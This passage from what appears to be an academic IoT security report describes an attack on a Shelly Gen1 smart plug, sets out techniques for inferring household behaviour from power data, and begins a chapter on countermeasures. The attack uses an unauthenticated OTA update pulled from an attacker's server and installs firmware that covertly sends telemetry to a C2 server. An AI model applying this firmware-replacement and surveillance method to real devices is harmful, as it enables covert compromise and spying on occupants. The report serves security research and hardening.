    
\includegraphics[width=\linewidth]{Images/Fase2/MITM4.jpg}
    \caption{Variant B: the \texttt{curl} command directly instructs the device to download firmware from the attacker's server. The bottom pane shows the rogue HTTP server ready to serve the malicious bundle}
    \label{fig:mitm_trigger}
\end{figure}

\noindent Figure~\ref{fig:mitm_response} shows the device's JSON response, confirming the update status \\ (\texttt{"status":"updating"}), and the HTTP server logging the successful firmware download \\ (\texttt{"GET /gen1/SHPLG-S.zip HTTP/1.1" 200}).

\begin{figure}[H]
    \centering
    
\includegraphics[width=\linewidth]{Images/Fase2/MITM5.jpg}
    \caption{Variant B result: the device confirms the update (\texttt{"status":"updating"}) and the HTTP server logs the firmware download (HTTP 200)}
    \label{fig:mitm_response}
\end{figure}

\noindent \textbf{This variant highlights a critical design flaw in the Shelly Gen1 firmware} because the OTA endpoint accepts firmware from any URL without authentication. Any actor with network access to the device can silently replace the entire firmware with a single HTTP request.


\subsection{Post-Injection Results}
Both attack variants produce the same outcome: the device downloads, applies, and reboots into the malicious firmware. After the automatic reboot, Figure~\ref{fig:mitm_post} shows the post-injection state: the device now presents the malicious firmware's web interface, confirming that the firmware replacement was successful. From the user's perspective, the device continues to function normally, but it is now silently exfiltrating all telemetry data to our C2 server.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.80\linewidth]{Images/Fase2/MITM3.jpg}
    \caption{Post-injection: the device now serves the malicious firmware's web interface, confirming successful firmware replacement}
    \label{fig:mitm_post}
\end{figure}

\noindent Instead, Figure~\ref{fig:mqtt_redfw} shows the MQTT telemetry captured via \texttt{mosquitto\_sub}, confirming the successful publication of standard power, energy, and temperature readings from the compromised device, demonstrating that the behavioral camouflage is fully functional.


\begin{figure}[H]
    \centering
    
\includegraphics[width=0.80\linewidth]{Images/Fase2/MQTTRedfw.png}
    \caption{MQTT telemetry captured via \texttt{mosquitto\_sub}, showing live power, energy, and temperature readings from the compromised device}
    \label{fig:mqtt_redfw}
\end{figure}

\noindent Both variants converge on the same fundamental weakness: the \textbf{absence of cryptographic firmware verification}. This vulnerability is addressed comprehensively in Phase 3 through the implementation of RSA-based firmware signature verification and mutual TLS authentication.


\section{Pattern Recognition \& User Behavior Analytics}
Beyond the immediate security implications of unauthorized data exfiltration, the continuously collected power consumption data enables a more insidious form of surveillance: \textbf{semantic side-channel analysis}. By analyzing temporal patterns and power level variations, it becomes possible to infer detailed information about user habits, daily routines, and the types of appliances connected to the smart plug.

\medskip
\noindent The telemetry data collected by the compromised device provides a high-resolution time series of power consumption, sampled every 60 seconds. This granularity is sufficient to perform the following types of behavioral inference:

\begin{itemize}
    \item \textbf{Presence/Absence detection}: A prolonged period of zero power consumption (relay on, but no load) or consistently low standby power can indicate that the user is away from home. Conversely, periodic load activation patterns reveal the user's daily schedule and presence habits.
    
    \item \textbf{Appliance fingerprinting}: Different electrical appliances exhibit characteristic power signatures. A resistive heating element (e.g., a kettle or space heater) produces a stable, high-wattage plateau, while a refrigerator compressor shows periodic on/off cycling with a distinctive inrush current spike. By matching observed power profiles against known appliance signatures, the attacker can determine \emph{which} type of device is connected.
    
    \item \textbf{Activity pattern inference}: Regular power consumption patterns at specific times of day (e.g., a coffee machine activated every morning at 7:00 AM, a desk lamp turned on at 9:00 PM) reveal the user's behavioral routines with a high degree of temporal precision.
    
    \item \textbf{Occupancy analytics}: The correlation between power events across multiple compromised devices in the same household can produce a comprehensive occupancy map, revealing not only \emph{when} the user is home, but also \emph{which rooms} are occupied and for how long.
\end{itemize}

\noindent This type of analysis transforms what appears to be innocuous energy metering data into a powerful surveillance tool, highlighting the severe privacy implications of IoT device compromise, even when the attacker does not gain direct access to cameras, microphones, or personal data.

\chapter{Phase 3: Hardening \& Mitigation}

This chapter presents the Blue Team response to the vulnerabilities identified and exploited in the previous phases. The objective is to implement a set of countermeasures that enforce the three fundamental security properties — \textbf{integrity}, \textbf{confidentiality}, and \textbf{authenticity} — on the same resource-constrained ESP8266 hardware.

\medskip
\noindent Unlike Phase~2, where the malicious firmware was developed using the Mongoose OS framework to match the original Shelly ecosystem, the hardened firmware for Phase~3 was built entirely using the \textbf{Arduino IDE} (with the ESP8266 Arduino Core). This deliberate choice was made to vary the development approach and to demonstrate that the same hardware can be programmed using different toolchains. The Arduino ecosystem also provides direct access to the \textbf{BearSSL} cryptographic library, which is essential for implementing both TLS-based MQTT communication and RSA-based firmware signature verification within the tight memory constraints of the ESP8266.

\medskip
\noindent The hardened firmware (\texttt{ShellyPlugS.ino}) preserves the same functional capabilities as the Phase~2 variant — relay control, energy monitoring via the HLW8012, MQTT telemetry publishing, and an embedded web interface (Figure~\ref{fig:bluefw_ui}) — but introduces two critical security layers:

\begin{enumerate}
    \item \textbf{Secure OTA Update with Firmware Signing}: Cryptographic signing of firmware binaries using RSA-2048 and verification of the digital signature before applying any update, preventing the injection of unauthorized code (Section~\ref{sec:integrity}).
    
    \item \textbf{Secure MQTT Communication with mTLS}: Migration from plaintext MQTT (port 1883) to MQTTS (port 8883) using TLS 1.2 with mutual authentication via X.509 certificates, preventing eavesdropping and unauthorized broker/client impersonation (Section~\ref{sec:confidentiality}).
\end{enumerate}

\begin{figure}[H]
    \centering
